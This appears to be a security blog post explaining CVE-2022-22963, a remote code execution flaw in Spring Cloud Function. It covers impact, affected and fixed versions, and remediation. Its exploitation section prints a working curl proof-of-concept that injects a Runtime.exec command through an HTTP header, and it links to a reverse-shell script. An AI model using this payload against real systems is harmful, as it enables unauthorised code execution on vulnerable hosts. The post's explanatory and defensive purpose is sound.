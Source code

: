 ```yaml
---
title: 'CVE-2022–22963: Spring Cloud Function RCE Vulnerability'
author: paincakes
date: 2022-11-30 20:55:00 +0800
categories: [Research, CVEs]
tags: [CVE-2022–22963, RCE, http-injection]
---
```


Spring Cloud officially [released](https://tanzu.vmware.com/security/cve-2022-22963) a security bulletin, revealing a SpEL expression injection vulnerability (CVE-2022–22963) in a certain version of Spring Cloud Function An unauthenticated attacker constructs certain data packets to inject malicious SpEL expressions into specified HTTP request headers, resulting in remote arbitrary code execution.

## What is Spring Cloud Function
Spring is a lightweight Java platform application development framework that is open source and used by millions of developers to create high-performing, easily testable code. The Spring Cloud Function framework enables developers to use Spring features to build cloud-agnostic functions. These functions may be deployed as stand-alone classes on any cloud platform to create a serverless framework.

Spring Cloud Function’s main benefit is that it includes all of the functionalities of Spring Boot-like autoconfiguration and dependency injection.

## CVE-2022–22963
Exploitation of this vulnerability is simple in certain settings, since it only takes an attacker to deliver a forged HTTP request to a vulnerable machine. However, exploitation of different configurations will need more research to develop effective payloads. An unauthenticated attacker can exploit this flaw to execute arbitrary code on the victim machine.

## Impact of CVE-2022–22963
According to the [CVSS system](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H), it scores 9.8 as Critical Severity.
It is possible to exploit the vulnerability and completely compromise the host or container, allowing arbitrary commands to be executed.
Because Spring Cloud Functions may be utilized in Cloud serverless functions, such functions may be insecure in the same way, allowing attackers to get access to your cloud account.
Affected Spring Cloud Function versions,
- 3.1.6
- 3.2.2
- And Older, unsupported versions are also affected.

## Exploiting CVE-2022–22963
In this [GitHub](https://github.com/darryk10/CVE-2022-22963) Repository, it contains the docker images to run and try the exploitation for yourself. Accomplishing this vulnerability is quite easy, here is the curl command to exploit the vulnerability.

```
curl -i -s -k -X $'POST' -H $'Host: 192.168.1.2:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned")' --data-binary $'exploit_poc' $'http://192.168.1.2:8080/functionRouter'
```

More detailed python script for Reverse Shell [here](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE).

## Remediation
Spring has published a new version to address the CVE-2022–22963 vulnerability, and impacted customers are encouraged to update to the unaffected [version(https://github.com/spring-cloud/spring-cloud-function/releases/tag/v3.2.3)]. No other steps are necessary. Releases that have fixed this issue include Spring Cloud Function Version:

- 3.1.7
- 3.2.3
- And Latest version